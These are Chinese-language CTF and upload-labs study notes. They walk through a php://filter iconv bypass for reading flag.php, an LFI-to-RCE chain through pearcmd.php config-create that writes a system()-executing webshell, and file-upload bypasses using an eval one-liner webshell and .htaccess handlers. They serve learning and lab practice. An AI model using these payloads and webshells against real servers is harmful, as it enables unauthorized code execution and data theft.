










## 1.Include0。0

##### PART1.知识点

**1. 漏洞本身：LFI 文件包含** `include($_GET['file'])` 接受用户完全可控的路径。PHP 的 `include` 不仅能读本地文件，还能识别 `php://` 等伪协议封装器（wrapper）。过滤条件 `!preg_match('/base|rot/i', $file)` 是黑名单，只挡了 `base`、`rot` 这两个字串，属于典型的“只禁常见写法”的不完整过滤。

**2. `php://filter` 伪协议** 语法是 `php://filter/read=<过滤器链>/resource=<目标文件>`。它在 `include` 读取文件内容时先套一层过滤器，常用来“把源码读出来而不执行”：最经典的是 `convert.base64-encode`，因为 `<?php` 仍原样存在，PHP 会执行它，只是不输出；先 base64 编码能破坏标签，还能让内容可复制。本题 `base` 被禁，所以必须换别的过滤器。

**3. `convert.iconv` 编码转换绕过** `convert.iconv.<源编码>.<目标编码>` 按字符集规则重排字节。没被禁的有 `string.toupper`、`convert.quoted-printable-encode`、`convert.iconv` 的各种编码

**三种常见转换手法**

1. **字节序互换**：`UCS-2LE` 和 `UCS-2BE` 只是同一字符的两种字节顺序，互转等价于每 2 字节对调。`<?php`（`3C 3F 70 68 70`）→ `?<hp`，标签消失。所以 UCS-2 版回显里数字、字母会错位，比如 `5b` 变 `b5`，肉眼读起来很别扭。
2. **状态/转义编码**：UTF-7 规定 ASCII 只有小部分可直出，`<` 被编码成 `+ADw-`、`>` 成 `+AD-`、`{` 成 `+AHs-`、`}` 成 `+AH0`。这样标签天然失效，而字母数字保持原样，所以 UTF-7 版直接可读。
3. **多字节膨胀**：`UTF8` → `UTF16`/`UTF32`，每个 ASCII 字符后面插入 `00` 或被拆成 2/4 字节，字面 `<?` 序列不再连续，同样让解析器认不出。

顺带两个细节：

- **为什么必须破坏标签**：不破坏的话，`include` 会执行 `flag.php`，而 flag 在注释或变量里，执行后什么都不输出，看不到。
- **UTF-7 的痕迹**：UTF-7 把非 ASCII 安全字符编码成 `+...-`，其中 `<`=`+ADw`、`{`=`+AHs-`、`}`=`+AH0`；所以回显里出现 `+ADw?php`、`+AHs-`，把它们替换回去就是明文

##### PART2.解题回顾



```
 !preg_match('/base|rot/i',$file)
```

出现，说明不区分大小,file参数中写base和rot就会拒绝包含

所以我们尝试**换 UTF-7 让输出可读**

```
?file=php://filter/read=convert.iconv.UTF8.UTF7/resource=flag.php
```

**`?file=`**：源码里是 `$file = $_GET['file'];`，参数名必须是 `file`，否则 `isset` 不成立，会直接执行 `die("nope")`。

**`php://filter`**：能对 `include` 读取到的内容先做一次“转换”，再把转换结果交给 PHP。它的用途是让内容发生变化，从而访问到文件。

**`convert.iconv.UTF8.UTF7`**：过滤规则 `/base|rot/i` 把 `base64`、`rot13` 这些常见过滤器都禁了，但 `iconv` 没有被禁。这里会把内容按 UCS-2 小端读入，再按大端输出。如果直接用 `?file=flag.php`，PHP 会执行 `flag.php` 里的内容，而注释不会输出，因此根本看不到 flag。

**`/resource=flag.php`**：表示真正要读取的文件是 `flag.php`，前面的 filter 只负责转换



由于`{`=`+AHs-`、`}`=`+AH0`，所以可知flag为CTF2{ab5380f5-7bcd-4a99-99ad-6af52cd038f1}

## 2.Include 🍐

##### PART1知识点

根据提示LFI to RCE

- **LFI 入口**：`include($file.".php")` 直接包含用户可控路径。
- **RCE 落点**：`register_argc_argv=On` 让 query 按 `+` 切分进入 `$_SERVER['argv']`，`pearcmd.php` 的 `config-create` 把 argv 内容写进 `/tmp/shell.php`，再 `include` 这个文件执行 → 任意代码执行。
- **串联关系**：`file=/usr/local/lib/php/pearcmd` 负责“执行 pearcmd”，URL 里的 `+config-create+...` 负责“让它写文件”，末尾 `.php` 拼接负责“把路径补成可执行脚本”。

和经典 LFI to RCE 手法的区别在于黑名单已经封掉了常见链路，所以只能靠 **/usr/local/lib/php/pearcmd.php** 这种本地已存在、又会二次解析参数的脚本做“文件写入 + 执行”的跳板。

`include($file.".php")` 文件包含，拼 `.php` 后缀

phpinfo 信息泄露（假 flag 提示、`register_argc_argv=On`）

`register_argc_argv` 使 query 按 `+` 分割进入 `$_SERVER['argv']` 且不解码

PEAR `pearcmd.php` 的 `config-create` 任意文件写入

HTTP/2 的 `:path` 不允许 `<>`，需降级 HTTP/1.1

##### PART2解题回顾

题目

```
<?php
error_reporting(0);
if(isset($_GET['file'])){
    $file = $_GET['file'];

    if(preg_match('/flag|log|session|filter|input|data/i', $file)){
        die('hacker!');
    }

    include($file.".php");
    # Something in phpinfo.php!
}
else{
    highlight_file(__FILE__);
}
```

说明过滤 `flag|log|session|filter|input|data`，`php://filter`、`php://input`、`data://` 。

注释提示去 `phpinfo.php` 找信息。所以访问 `/phpinfo.php`，搜索flag可以看到



根据提示搜 `register_argc_argv`



浏览器直接写文件

用 `config-create` 写 shell，地址栏输入

```
/?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/test.php
```

回显里写入的是编码后的 `%3C%3F%3Dphpinfo()%3F%3E`，因为浏览器把 `<>` 做了百分号编码，而 `$_SERVER['argv']` 不做解码，文件里没有可执行的 PHP 标签。

用 Burp Suite Repeater 发原始请求：

```
GET /?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/shell.php HTTP/1.1
Host: <实例域名>
Connection: close
```

⛓️‍💥Repeater 默认按 HTTP/2 发送，`:path` 里的 `<>` 被 openresty 判非法，返回 `400 Bad Request`。需要在 Repeater 顶部把协议从 `HTTP/2` 切成 `HTTP/1`。

响应末尾：



验证文件可执行

```
http://<实例域名>/?file=/tmp/shell
```

`include` 把 `/tmp/shell` 拼成 `/tmp/shell.php`，页面回显完整 phpinfo，证明写入的 `<?=phpinfo()?>` 标签可执行。

写 webshell，用Repeater 重发，payload 换成能执行系统命令的 shell

```
GET /?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=system($_GET[a]);?>+/tmp/shell.php HTTP/1.1
Host: <实例域名>
Connection: close
```

覆盖成功后再访问

```
http://<实例域名>/?file=/tmp/shell&a=ls%20/
```

页面输出被 PEAR 配置序列化文本包裹，但其中能看到 `bin boot dev etc flag home lib …`，确认根目录存在 `flag`



然后去读flag

```
http://<实例域名>/?file=/tmp/shell&a=cat%20/flag
```




禁掉 `filter/input/data` 后，`include($file.".php")` 的 `.php` 拼接把 `pearcmd` 从“配置文件路径”变成了“可执行脚本路径”。

**phpinfo **：假 flag 常直接点名考点，`register_argc_argv`、`include_path`、`DOCUMENT_ROOT` 都能从 phpinfo 里读。

**`$_SERVER['argv']` 不解码**：这是 pearcmd 利用的关键，浏览器/表单会把 `<>` 编码成 `%3C`，必须用 Burp、curl 这类能发原始字节的工具。

**回显被包裹不影响判断**：`config-create` 写出的文件本身是 PEAR 序列化配置，命令输出嵌在字段值里，看到根目录列表里有 `flag` 就说明已经 RCE。

## 3.upload-lab.1-8

#### emm应该是这样写的吧（）

##### 1).前端绕过

用记事本写文件，改文件名为`.jpg`的（因为）

内容是一句话木马

```
<?php @eval($_POST['pass']); ?>
```

`$_POST['pass']`接收 HTTP POST 里名为 `pass` 的参数，**原样当代码传给 eval**

| 维度            | GET                                    | POST     |
| --------------- | -------------------------------------- | -------- |
| 数据位置        | URL 里                                 | 请求体里 |
| 长度限制        | 有，约 2~8KB                           | 基本无   |
| 是否进访问日志  | **会**，`?1=system('whoami')` 原样记录 | 不记录   |
| 浏览器历史/收藏 | 会留下                                 | 不会     |
| 缓存、重复请求  | 可被缓存                               | 不缓存   |
| 特殊字符        | 要 URL 编码（`&`→`%26`）               | 一般不用 |

打开bp，抓包，把 `filename="shell.jpg"` 改成 `filename="shell.php"`，放行

##### 2).MIME绕过

根据提示，查看代码发现

```PHP
if ($_FILES["file"]["type"] == "image/jpeg") { ... }
```

只需上传抓包，把 `Content-Type: application/octet-stream` 换成 `image/jpeg`，就可以绕过检测

##### 3)后缀名绕过，用`.php3`那些黑名单漏掉的

##### 4).htaccess 解析漏洞

没办法上传 `.php` 文件。准备一个文件，文件名就是 `.htaccess`，

内容（这里因为直接用的是例会里的代码但是好像出问题了，就去问dsh她说**因为我机器上装的是 NTS 版 PHP，它根本不提供 Apache 模块 DLL，只能跑成独立进程**）

```
AddHandler fcgid-script .jpg
FcgidWrapper "D:/phpstudy_pro/Extensions/php/php5.6.9nts/php-cgi.exe" .jpg
```

因为我已经写了一个内容为一句话木马，格式为`.jpg`的文件，直接上传后，再访问`/upload/文件名.jpg`

##### 5).


